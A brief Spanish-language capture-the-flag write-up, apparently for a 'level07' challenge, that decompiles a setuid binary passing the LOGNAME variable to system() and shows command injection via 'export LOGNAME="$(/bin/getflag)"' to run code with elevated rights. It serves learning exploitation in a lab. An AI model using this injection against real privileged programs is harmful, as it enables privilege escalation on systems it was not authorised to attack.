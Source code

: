 - Entro y encuentro un binario level07
- Descargo el fichero en local
- Abro con Ghidra
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

- Está el binario ejecuta un echo sobre el valor de la variable de entrono "LOGNAME"
- intento inllectar un commando en la variable
- export LOGNAME="$(echo hola)"; otuput = hola
- tengo salida de la ejecución de un comando
- export LOGNAME="$(/bin/getflag)"
